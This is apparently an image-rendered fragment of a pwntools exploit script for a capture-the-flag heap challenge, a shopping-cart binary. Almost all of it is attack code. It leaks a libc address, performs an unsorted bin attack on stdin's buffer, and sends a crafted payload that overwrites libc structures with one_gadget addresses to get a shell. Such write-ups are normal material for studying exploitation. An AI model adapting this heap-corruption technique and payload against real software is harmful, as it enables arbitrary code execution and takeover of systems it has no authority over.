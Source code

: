 ```

buy(0xd, False)
show(0xe, False)

p.recvuntil('Amount: ')
libc_addr = int(p.recvuntil('\n')[:-1]) - 0x3c4b78

log.info('Libc Addr: ' + hex(libc_addr))
log.info('Arena + 88: ' + hex(libc_addr + 0x3c4b78))
log.info('One_gadget_addr: ' + hex(libc_addr + one_gadget_offset))

# Unsorted bin Attack
show(0, True)
items_in_cart = p.recvuntil('14: ').split('\n')
del items_in_cart[0]
del items_in_cart[-1]

for x in range(len(items_in_cart)):
    if(x < 9):
        items_in_cart[x] = items_in_cart[x][3:]
    else:
        items_in_cart[x] = items_in_cart[x][4:]

item_name = p.recvuntil('\n')[:-1]
log.info('Item name: ' + item_name)
log.info('Diff Offset: ' + hex(stdin_buf_end_offset - 0x3c4b78))

while True:
    idx, result = unsorted_bin_attack()
    if idx is None:
        null_idx = is_in_cart(result)
        if null_idx is None:
            log.info('Error')
        log.info(null_idx)
        p.sendline(str(null_idx))
        p.sendlineafter('?:', str(1))
        p.recvuntil('Done!\n\n')
    else:
        p.sendline(idx)
        p.sendlineafter('Add more?:', str(
            stdin_buf_end_offset - 0x10 - 0x3c4b78))
        p.recvuntil('Done!\n\n')
        break

while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
    del result[-1]
    del result[-1]
    if len(result) == 16:
        break

payload = '\x00'*5 + p64(libc_addr+0x3c6790)
payload += p64(0xffffffffffffffff) + p64(0x0000000000000000)
payload += p64(libc_addr + 0x3c49c0) + p64(0)*3
payload += p64(0x00000000ffffffff) + p64(0)*2 + p64(libc_addr + 0x3c49c0)
payload += p64(0)*2 + p64(libc_addr + one_gadget_offset)*10
p.sendline(payload)
p.recvuntil('Your choice:')
p.interactive()
```